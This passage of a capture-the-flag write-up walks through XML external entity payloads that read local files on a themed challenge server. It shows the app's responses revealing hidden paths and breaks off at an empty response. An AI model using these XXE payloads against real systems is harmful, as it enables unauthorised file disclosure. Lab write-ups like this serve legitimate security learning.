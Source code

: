 
Which gives me the path to a downloadable PNG, which shows me the path for future files, like below:

Green: 
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/greenring.txt" >]>
 
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</who>
</root>
```

Response:
```json
{
  "appResp": "Hey, who is this guy? He doesn't have a ticket!^I don't remember seeing him in the movies!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/tomb2022-tommyeasteregg3847516894.png,230px,30px"
}
```

Silver:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt" >]>
 
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</who>
</root>
```

Response:
```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

Which leads me to:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
 
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</who>
</root>
```
Response:
```json
{
```
